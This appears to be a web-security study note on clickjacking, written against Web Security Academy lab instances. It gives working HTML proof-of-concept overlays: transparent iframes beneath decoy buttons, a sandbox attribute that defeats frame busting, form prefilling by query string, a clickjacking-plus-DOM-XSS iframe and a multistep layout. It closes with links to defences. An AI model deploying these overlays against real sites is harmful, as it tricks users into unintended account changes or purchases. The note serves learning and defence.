

>[!question] What it clickjacking?
>Clickjacking (also known as **UI redressing**) is an interface-based attack in which a user is tricked into clicking on actionable content on a hidden website by clicking on some other content in a decoy website.

# Basic clickjacking PoC

```html
<style>
    iframe {
        position:relative;
        width:1000;
        height: 1000;
        opacity: 0.2;
        z-index: 2;
    }
    div {
        position:absolute;
        top:520;
        left:100;
        z-index: 1;
    }
</style>
<div>Click</div>
<iframe src="https://0a17008404af04c0c03c7c5c002800f0.web-security-academy.net/my-account"></iframe>
```

The target website iframe is positioned within the browser so that there is a precise overlap of the target action with the decoy website using appropriate width and height position values. Absolute and relative position values are used to ensure that the target website accurately overlaps the decoy regardless of screen size, browser type and platform.



## Frame busting scripts with prefilled form input

Some preventative techniques are based upon restricting the framing capability for websites. Common client-side protection enacted through the web browser are to use frame busting or frame breaking scripts. These can be implemented via proprietary browser JavaScript add-ons or extensions such as NoScript.

Some common behaviors are:
- check and enforce that the current application window is the main or top window,
- make all frames visible,
- prevent clicking on invisible frames,
- intercept and flag potential clickjacking attacks to the user.

Frame busting techniques are often browser and platform specific and because of the flexibility of HTML they can usually be circumvented by attackers.
An effective attacker workaround against frame busters is to use the HTML5 iframe `sandbox` attribute. When this is set with the `allow-forms` or `allow-scripts` values and the `allow-top-navigation` value is omitted then the frame buster script can be neutralized as the iframe cannot check whether or not it is the top window.

```html
<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>
```

PoC:
>[!note]
>to pre-fill data inside forms we can set them using query strings
```html
<style>
    iframe {
        position:relative;
        width:1000;
        height: 1000;
        opacity: 0.2;
        z-index: 2;
    }
    div {
        position:absolute;
        top:470;
        left:100;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe name="victim_frame" sandbox="allow-forms" src="https://0a61008c0335a05dc0e5e05800b700c7.web-security-academy.net/my-account?email=test@test.com"></iframe>
```

## Combining clickjacking with a DOM XSS attack

Assuming that the attacker has first identified the XSS exploit. The XSS exploit is then combined with the iframe target URL so that the user clicks on the button or link and consequently executes the DOM XSS attack.

```html
<iframe name="victim_frame" src="https://0a96001203426ee2c0660906001e008e.web-security-academy.net/feedback?name=&email=a@b.com&subject=xss&message=this+form+is+vulnerable+to+xss"></iframe>
```

## Multistep clickjacking

Attacker manipulation of inputs to a target website may necessitate multiple actions. For example, an attacker might want to trick a user into buying something from a retail website so items need to be added to a shopping basket before the order is placed. These actions can be implemented by the attacker using multiple divisions or iframes.

```html
<style>
	iframe {
		position:relative;
		width:1000;
		height: 1000;
		opacity: 0.2;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:520;
		left:80;
		z-index: 1;
	}
   .secondClick {
		top:300;
		left:200;
	}
</style>
<div class="firstClick">Test me first</div>
<div class="secondClick">Test me next</div>
<iframe src="https://0ad700100460cdbcc04ba431007400b0.web-security-academy.net/my-account"></iframe>
```

---

# Protections against clickjacking

- [X-Frame-Options](X-Frame-Options.md)
- [Content Security Policy (CSP)](Content%20Security%20Policy%20(CSP).md)
- [Frame busting](Clickjacking.md#Frame%20busting%20scripts%20with%20prefilled%20form%20input)

---

# Useful tools

- [Burp Clickbandit](https://portswigger.net/burp/documentation/desktop/tools/clickbandit)
